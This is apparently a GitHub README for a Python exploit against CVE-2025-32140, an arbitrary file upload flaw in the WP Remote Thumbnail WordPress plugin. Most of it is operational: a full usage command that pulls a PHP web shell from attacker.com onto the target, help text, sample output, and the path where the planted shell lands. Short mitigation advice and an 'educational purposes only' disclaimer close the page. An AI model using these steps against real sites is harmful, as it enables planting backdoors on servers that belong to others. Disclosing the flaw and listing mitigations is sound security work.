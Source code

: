 # 🚨 CVE-2025-32140 – WP Remote Thumbnail Exploit (Arbitrary File Upload)

---

## 📝 Description

**CVE-2025-32140** is a **critical vulnerability** in the **WP Remote Thumbnail** plugin for WordPress. It enables **authenticated attackers** (with contributor or higher permissions) to upload **arbitrary files**, such as **web shells**, by abusing a flawed feature that accepts unsanitized URLs.

The plugin fails to validate the file type or content fetched from the provided `remote_thumb` URL. This allows attackers to save malicious PHP files (e.g., backdoors) into the `/wp-content/uploads` directory.

---

## ⚠️ Vulnerable Component

- **Plugin**: WP Remote Thumbnail
- **Vulnerable Versions**: <= 1.3.2
- **Patched Version**: *Not yet released*
- **Attack Vector**: Network
- **Privileges Required**: Low (Authenticated user with `edit_post` capability)
- **CVSS Score**: **9.9 (Critical)**

---

## 🛠 Exploit Script

This Python script automates the exploitation of **CVE-2025-32140**, performing the following steps:

1. Logs into the target WordPress site.
2. Automatically extracts required nonces.
3. Crafts and sends a malicious request via the `remote_thumb` parameter.
4. Uploads a web shell to the target site.

---

## 🔧 Command-Line Options

| **Option**      | **Alias** | **Description**                                                                 |
|------------------|-----------|---------------------------------------------------------------------------------|
| `--url`         | `-u`      | Target WordPress site URL (e.g., `http://target.com/wordpress`)                 |
| `--username`    | `-un`     | WordPress username with post editing privileges                                |
| `--password`    | `-p`      | Password for the specified username                                            |
| `--user_ID`     | `-uid`    | WordPress User ID (usually `1` for admin)                                      |
| `--post_ID`     | `-pid`    | ID of the post to be edited (can be a draft)                                   |
| `--shell`       |           | Direct URL to a PHP web shell hosted on the attacker's server                  |

---

## 🚀 Usage

```bash
python CVE-2025-32140.py -u http://target.com/wordpress -un admin -p admin -uid 1 -pid 631 --shell http://attacker.com/shell.php
```
## 📖 Usage & Help
```bash

                                                                                                                
usage: CVE-2025-32140.py [-h] --url URL --username USERNAME --password PASSWORD --user_ID USER_ID --post_ID POST_ID --shell SHELL

Exploit For CVE-2025-32140 # By: Nxploited | Khaled Alenazi

options:
  -h, --help            show this help message and exit
  --url, -u URL         Target WordPress site URL (e.g., http://192.168.100.74:888/wordpress)
  --username, -un USERNAME
                        Username
  --password, -p PASSWORD
                        Password
  --user_ID, -uid USER_ID
                        User ID (usually 1 for admin)
  --post_ID, -pid POST_ID
                        Target post ID
  --shell SHELL         URL of the shell to be uploaded (e.g., http://attacker.com/shell.php)

```
---

## 📋 Example Output

```bash
[+] Logged in successfully.
[+] Cookies set successfully.
[DEBUG] Extracted _wpnonce: b4ef78e77d
[DEBUG] Extracted meta-box-order-nonce: 0c192fe62e
[DEBUG] Extracted closedpostboxesnonce: 52be514040
[DEBUG] Extracted samplepermalinknonce: 7b213c6597
[DEBUG] Extracted wprthumb_nonce: 45803ee312
[DEBUG] Extracted X-WP-Nonce: None
[+] Exploit POST sent successfully. Check your uploads directory.
By: Nxploited ( Khaled Alenazi ) | https://github.com/Nxploited

```

---

## 📂 Shell Location

Once exploited, the uploaded web shell will likely be stored at:

```
http://target.com/wordpress/wp-content/uploads/YYYY/MM/shell.php
```

Replace `YYYY/MM` with the **current year and month** of upload.

---

## 🛡 Recommendations

To mitigate the risk posed by this vulnerability:

1. **Update the plugin** to the latest version (once a patch is released).
2. Restrict file upload capabilities to **trusted users only**.
3. Disable the **remote thumbnail fetch** feature if it is not required.

---

## ⚠️ Disclaimer

> **This script is provided for educational purposes only.**  
> **The author is not responsible for any misuse or damage caused by this exploit.**

---

## 👤 Author

*By: [Nxploited ( Khaled Alenazi )](https://github.com/Nxploited)* 🌟
